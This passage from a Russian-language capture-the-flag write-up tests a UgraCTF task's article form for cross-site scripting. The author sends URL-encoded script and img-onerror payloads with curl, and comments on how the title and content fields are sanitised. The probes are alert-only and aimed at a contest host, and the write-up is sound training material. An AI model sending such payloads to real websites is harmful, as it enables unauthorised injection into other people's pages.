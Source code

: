 ```shell
$ CONTENT='%3Cscript%3Ealert(1)%3B%3C%2Fscript%3E'
$ curl -s 'https://mediumrare.q.2025.ugractf.ru/zrwvtcqhcjvjugnp/new/' \
    -X POST \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H 'Origin: https://mediumrare.q.2025.ugractf.ru' \
    -H 'Referer: https://mediumrare.q.2025.ugractf.ru/zrwvtcqhcjvjugnp/new/' \
    --data-raw "title=$CONTENT&free_content=$CONTENT&paid_content=$CONTENT" \
    | grep 'Версия для подписчиков' | cut -d'>' -f2 | cut -d'<' -f1
https://mediumrare.q.2025.ugractf.ru/zrwvtcqhcjvjugnp/d79798e4c37cee9af44179b18405c17a/?password=umaZdTfraEvX9NYEV7fuc2lq1toKGfDhQX61PZpR6JE=
```

![](./writeup/alert.png)

Видимо, теги в содержании статьи очищаются на сервере, а в поле _Title_ подставляются экранированно.

### `<img src="x" onerror="alert(1);">`

urlencode: `%3Cimg%20src%3D%22x%22%20onerror%3D%22alert(1)%3B%22%3E`

```shell
$ CONTENT='%3Cimg%20src%3D%22x%22%20onerror%3D%22alert(1)%3B%22%3E'
$ curl -s 'https://mediumrare.q.2025.ugractf.ru/zrwvtcqhcjvjugnp/new/' \
    -X POST \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H 'Origin: https://mediumrare.q.2025.ugractf.ru' \
    -H 'Referer: https://mediumrare.q.2025.ugractf.ru/zrwvtcqhcjvjugnp/new/' \
    --data-raw "title=$CONTENT&free_content=$CONTENT&paid_content=$CONTENT" \
    | grep 'Версия для подписчиков' | cut -d'>' -f2 | cut -d'<' -f1
```

![](./writeup/img-onerror.png)

Мда, то есть из содержимого тег просто выкинули, а в Title так и поставили.

### `<UnknownTag>`

Может быть на содержимое повесили какой-то санитайзер со списком разрешённых тегов?

urlencode: `%3CUnknownTag%3E`

```shell
$ CONTENT='%3CUnknownTag%3E'
$ curl -s 'https://mediumrare.q.2025.ugractf.ru/zrwvtcqhcjvjugnp/new/' \
    -X POST \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H 'Origin: https://mediumrare.q.2025.ugractf.ru' \
    -H 'Referer: https://mediumrare.q.2025.ugractf.ru/zrwvtcqhcjvjugnp/new/' \
    --data-raw "title=$CONTENT&free_content=$CONTENT&paid_content=$CONTENT" \
    | grep 'Версия для подписчиков' | cut -d'>' -f2 | cut -d'<' -f1
```

![](./writeup/unknown-tag.png)
